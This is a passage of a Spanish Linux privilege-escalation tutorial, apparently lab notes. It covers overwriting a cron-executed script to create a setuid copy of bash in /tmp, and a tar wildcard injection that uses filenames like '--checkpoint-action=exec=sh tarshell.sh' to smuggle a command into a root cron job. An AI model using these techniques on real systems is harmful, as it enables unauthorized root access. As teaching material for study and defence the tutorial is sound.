 **3. Rescribir el archivo original**

Utilizando `nano` o `vim`, colocamos lo siguiente dentro del script
```bash
#!/bin/bash 
cp /bin/bash /tmp/cronbash2 
chmod +s /tmp/cronbash2
```
**CONSEJO:** Hacer una copia del original antes de modificarlo, en caso de necesitar hacer un roll-back.

**4. Ejecución**

Esperamos a que el crontab ejecute el overwrite original. 

**NOTA:** Hay que borrar el `overwrite.sh` que está en el `/home/user`, o moverlo, o renombrarlo, o quitarle los permisos de ejecución. De lo contrario jamás se ejecutará el que creamos ahora.

Cuando se haya creado la shell, nos movemos a la carpeta donde se encuentra y la ejecutamos del mismo modo.
```bash
cd /tmp/
./cronbash -p
```

**🎉 Escalada conseguida**

### 👉 Aprovechando compress.sh
Recordemos que en el `crontab`, el script `compress.sh` está programado para ejecutarse cada minuto.

Lo primero será revisar qué hace el script que se encuentra en `/usr/local/bin/compress.sh`. Nos mostrará algo como lo siguiente:
```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
Nos interesa especialmente la última línea
🔹 **Donde**:
-  `tar` es el comando que se utiliza en linux para empaquetar archivos
- `czf` son opciones del comando
	- `c` (create) crea un nuevo archivo .tar
	- `z` (gzip) comprime utilizando gzip
	- `f` (file) flag para definir el nombre del archivo de salida
	- `/tmp/backup.tar.gz` es el nombre del archivo de salida
	- `*` **_todos_** los archivos y carpetas del directorio actual (`/home/user`)
En resumen: **crea un archivo comprimido con todo el contenido de `/home/user`, y lo guarda en `/tmp/backup.tar.gz`**.

**💥 ¿Dónde entra la explotación?**

En **cómo `tar` interpreta sus argumentos**. (Combinándolo con la información de https://gtfobins.github.io/gtfobins/tar/)

En teoría, Si creamos archivos en `/home/user` que **se llamen exactamente como las flags**:
```bash
--checkpoint=1
--checkpoint-action=exec=sh tarshell.sh
```
Entonces, cuando el crontab ejecute `tar czf /tmp/backup.tar.gz *`, será lo equivalente a
`tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh tarshell.sh ...`
